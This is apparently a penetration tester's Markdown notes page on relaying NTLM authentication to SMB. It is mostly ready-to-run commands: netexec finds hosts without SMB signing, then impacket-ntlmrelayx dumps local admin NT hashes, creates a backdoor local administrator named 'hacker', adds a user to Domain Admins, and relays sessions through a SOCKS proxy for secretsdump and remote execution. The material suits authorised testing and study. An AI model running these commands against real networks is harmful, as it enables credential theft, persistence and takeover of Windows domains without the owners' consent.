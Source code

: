 ```yaml
---
title: NTLM Relay to SMB
---
```


[[notes/network/smb]] as [[notes/ad/ntlm-relay-sink]].

Find computers without SMB Signing.

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb 192.168.178.0/24 --gen-relay-list ./smb-unsigned.txt
    ~~~

> **NOTE:** The latest Windows 11 insider build has SMB Signing enabled by default ([source](http://web.archive.org/web/20230605061055/https://techcommunity.microsoft.com/t5/storage-at-microsoft/smb-signing-required-by-default-in-windows-insider/ba-p/3831704)).

Relay an account with local admin privileges to dump the NT hash of the local admin account.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -t smb://srv01.corp.local
    ~~~

Relay an account with local admin privileges to add a new local admin.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -t smb://srv01.corp.local -c 'net user hacker P@ssw0rd /add && net localgroup administrators hacker /add'
    ~~~

Relay an account with domain admin privileges to add yourself to *Domain Admins*.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -t smb://srv01.corp.local -c 'net group "domain admins" jdoe /add /domain'
    ~~~

Capture NTLM responses, relay to multiple targets and reuse the connection trough a SOCKS proxy.
The SOCKS connection has some limitations.
Tools that are known to work are `impacket-secretsdump`, `impacket-smbexec` and `impacket-atexec` ([source](https://github.com/SecureAuthCorp/impacket/issues/412#issuecomment-376317104)).

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -of ./results/ntlm-responses.txt -tf ./results/smb-unsigned.txt -socks
    ~~~
